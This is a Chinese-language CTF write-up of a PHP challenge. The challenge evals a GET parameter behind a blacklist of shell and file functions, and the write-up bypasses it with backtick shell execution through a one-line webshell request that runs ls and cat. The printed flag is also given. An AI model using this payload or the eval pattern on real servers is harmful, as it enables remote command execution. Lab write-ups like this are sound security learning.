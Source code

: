 ### Dynamic

这道题是考思维定势的... 

```php+HTML
<?php
highlight_file(__FILE__);
error_reporting(0);
$blacklist = ["system", "ini_set", "exec", "scandir", "shell_exec", "proc_open", "error_log", "ini_alter", "ini_set", "pfsockopen", "readfile", "echo", "file_get_contents", "readlink", "symlink", "popen", "fopen", "file", "fpassthru"];
$blacklist = array_merge($blacklist, get_defined_functions()['internal']);
foreach($blacklist as $i){
    if(stristr($_GET[cmd], $i)!==false){
        die('hack');
    }
}
eval($_GET[cmd]);
```

打开题目的代码长这样, 能看到`blacklist`里面禁用了好多用来输出和操作文件的函数... 怎么办? 于是我研究了好久`PHP`的漏洞, 包括`stristr()`的漏洞, 最后除了发现`print()`函数还能用之外什么都做不了...

但是咧, 经过大哥的点拨, 我明白了, `PHP`的函数不能用, 但是我们可以用`Linux`的指令呀!!!

于是我们分析代码, 发现首先是没有除了`cmd`之外的变量供我们使用的, 所以我们需要构建一个新的变量. 这新的变量的名字我们暂且叫`str`好了, 反正也没有什么关系.. ( 因为我大哥这么取的名字 ) 

接下来我们要读取这个`str`里的东西, 然后`print`出来. 最后跟上`id`的内容..

但是怎么调用`Linux`的函数呢.?

这要提到`PHP`里面又一个神奇的东西: 反引号: '`'. 

`PHP`会把包含在反引号里面的东西当成`Shell`指令执行.

所以, 我们就可以快乐的构建一句话木马啦!

Like this:

```php
?cmd=$str=$_GET[id];print%20`$str`;&id=ls
```

这样我们就可以调用`ls`指令来查看服务器当前文件夹里都有些什么东东..

然后我们看见了两个文件, 一个是`4f5f6c3be6ab7cc59dabf9ff7f2b248a
` 另一个是`index.php`..

`flag`自然不可能存在`index.php`里啦, 我们用`Linux`里的`cat`指令来查看那个乱码文件里是些什么东西:

```php
?cmd=$str=$_GET[id];print%20`$str`;&id=cat+4f5f6c3be6ab7cc59dabf9ff7f2b248a
```

然后就拿到`flag`啦...

`flag`: `moectf{PLEASE_USE_disable_function!!!!!!}`

## Android
